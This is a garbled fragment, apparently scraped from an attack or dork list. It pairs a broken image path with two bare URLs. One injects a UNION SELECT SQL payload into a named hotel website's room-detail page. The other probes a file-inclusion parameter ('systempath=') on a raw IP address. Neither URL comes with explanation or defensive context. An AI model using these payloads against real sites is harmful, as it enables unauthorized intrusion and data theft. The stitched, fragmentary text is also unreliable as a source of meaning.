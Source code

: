 http://www.embryohotel.com/room-detail.php?id=-1+UNION+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13--+




145.239.87.16:83/includes/header.php?systempath=
